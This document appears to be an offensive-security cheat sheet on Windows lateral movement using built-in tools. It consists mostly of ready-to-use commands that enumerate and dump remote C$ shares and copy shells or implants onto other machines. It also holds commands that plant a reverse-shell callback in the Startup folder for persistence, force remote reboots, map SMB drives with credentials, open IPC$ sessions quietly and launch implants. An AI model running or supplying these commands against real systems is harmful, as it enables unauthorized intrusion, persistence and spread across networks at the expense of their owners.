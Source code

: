 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - remote-file-access
  - living-off-the-land
  - windows
---
```

# Living off the Land

## 01 - List Files and Directories

### 1.1 - Command Prompt

List files and directories remotely

```
C:\> dir \\<IP>\c$
```

List all the files and directories

```
C:\> dir /s /b \\<IP>\c$ > files.txt
```

### 1.2 - PowerShell

List files and directories remotely

```
PS C:\> Get-ChildItem \\<IP>\C$

PS C:\> Get-ChildItem \\<IP>\C$ | Format-Wide -Property Name -Column 1
```

List all the files and directories

```
C:\> ChildItem -Recurse \\<IP>\C$ > files.txt

C:\> ChildItem -Recurse \\<IP>\C$ | Format-Wide -Property Name -Column 1 > files.txt
```

## 02 - Copy Files

### 2.1 - Command Prompt

#### 2.1.1 - Copy Files Remotely

```
C:\> copy.exe shell.exe \\<IP>\c$\folder\shell.exe

C:\> xcopy.exe shell.exe \\<IP>\c$\folder\shell.exe

C:\> robocopy.exe <source> <destination> <files>

C:\> robocopy.exe \\<IP>\c$\folder\shell.exe shell.exe
```

#### 2.1.2 - Copy reverse shell callback on `Startup` folder

```
C:\> xcopy.exe shell.exe "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\> robocopy.exe C:\ "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" shell.exe

C:\> shutdown.exe /t 0 /r /m \\<IP>
```

### 2.2 - PowerShell

#### 2.2.1 - Copy Files Remotely

```
PS C:\> Copy-Item implant.exe -Destination \\<IP>\C$\implant.exe
```

Copy the callback shell and execute it via powershell cmdlet.

```
PS C:\> $ip = New-PSSession -Computer <IP>

Copy-Item "C:\path\to\implant.exe" -Destination "C:\path\to\folder\" -ToSession $ip

icm -Session $ip -ScriptBlock { C:\path\to\implant.exe }
```

#### 2.2.2 - Copy reverse shell callback on `Startup` folder

```
PS C:\> Copy-Item shell.exe -destination "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

PS C:\> Restart-Computer -ComputerName <IP> -Force
```

## 03 - Mapping SMB Drive Network

### 3.1 - Command Prompt

```
C:\> net.exe use Z: \\<IP>\c$

C:\> net.exe use Z: \\<IP>\C$ /user:"<username>" "<password>"

C:\> dir Z:\

C:\> net.exe use Z: /delete
```

### 3.2 - PowerShell

```
PS C:\> New-PSDrive -Name <drive_name> -PSProvider FileSystem -Credential $credential \\<IP>\<share_name>

PS C:\> Get-ChildItem <drive_name>:
```

To remove the mounted drive.

```
PS C:\> Remove-PSDrive -Name <drive_name>
```

## 04 - Manual Null Session

### 4.1 - Command Prompt

Authenticate null session with `IPC$` via net use commands to allow the user to execute any other commands remotely.

```
C:\> net.exe use \\<IP>\IPC$ /u:"<username>" "<password>"

C:\> dir \\<IP>

C:\> net.exe view \\<IP>
```

Ignore the authentication while authenticating session.

```
C:\> net.exe use \\<IP>\IPC$ /u:"<username>" "<password>" > %TEMP%\~temp3936t.tmp 2>&1
```

## 05 - Spawn Implant

### 5.1 - Command Prompt

```
C:\> cmd.exe /q /c "C:\path\to\shell.exe" 1> \\<IP>\ADMIN$\<filename> 2>&1
```

## 06 - Terminate all the sessions

### 6.1 - Command Prompt

```
C:\> net use /delete *
```

---
## References

### LOFLCAB

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

- [LOFLCAB: Copy-Item](https://lofl-project.github.io/loflcab/Cmdlets/Copy-Item/)

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)